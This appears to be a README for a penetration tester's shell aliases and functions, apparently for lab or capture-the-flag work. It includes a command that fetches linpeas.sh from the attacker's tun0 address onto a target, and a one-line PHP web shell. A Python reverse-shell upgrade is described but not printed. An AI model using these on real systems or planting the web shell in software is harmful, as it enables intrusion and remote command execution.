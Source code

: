 # Scripts and Aliases

This README explains the functionality of various functions and aliases used in some scripts and commands. Here are the details for each function and alias:

## `ips()` Function

This function displays the IP addresses of network interfaces and the IP address of the configured "target". 

- The "target" is specifically used with **Polybar** to show the configured target IP.

### Example Output:
```
➜  ~ ips
[eth0] 192.168.23.129
[docker0] 172.17.0.1
[br-8db2d90e6bf0] 172.18.0.1
[tun0] 10.8.63.11
[Target] 10.10.11.15
```

## `linpeas()` Function

The `linpeas()` function helps to serve the `linpeas.sh` script to a target machine by using the local machine's IP address on the `tun0` network interface. It leverages Python's built-in HTTP server to serve the script over HTTP.

### Example Output:
```
➜  ~ linpeas
Run the following command on the target machine: wget http://10.8.63.11/linpeas.sh
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
## `upgrade()` Function

The `upgrade()` function is designed to copy a Python one-liner to the clipboard. This one-liner can be used to spawn a reverse shell using Python's `pty` module, which provides a way to interact with a terminal. The shell is opened through the `/bin/bash` shell, allowing the user to have a more interactive session.

### Example Usage:
Running `upgrade` will copy the Python reverse shell command to the clipboard. You can then paste the command into the target machine’s terminal to spawn a more interactive shell.

## `set_target()` Function

The `set_target()` function stores the IP address or hostname of a target machine. This makes it easy to track and reference the target machine for tasks like scanning or attacks. After using this function, the target information is saved persistently and can be used later.
- All target's alias and functions just work with polybar.

### Example Usage:

To save a target IP:

```bash
set_target 192.168.1.10
```

## `target` Alias

The `target` alias is a shortcut that allows you to quickly copy the stored target IP address or hostname to the clipboard. This makes it easy to paste the target wherever needed, such as in commands or configuration files.


### Example Usage:

After saving a target with the `set_target()` function, you can use the `target` alias to copy the target to the clipboard


## `tun0` Alias

The `tun0` alias is used to extract the IP address of the `tun0` network interface (typically associated with VPNs) and copy it to the clipboard. This is useful for quickly obtaining the IP address assigned to the `tun0` interface.

### Example Usage:

Running the alias will copy the `tun0` IP address to the clipboard

## `server` Alias

The `server` alias starts a simple HTTP server using Python on port 80. It is commonly used for quickly serving files or setting up a local server.

## `phpcmd` Alias

The `phpcmd` alias generates a basic PHP web shell script.

Running the alias creates a file called `webshell.php` with the following PHP code:

```php
<?php system($_GET["cmd"]); ?>
```
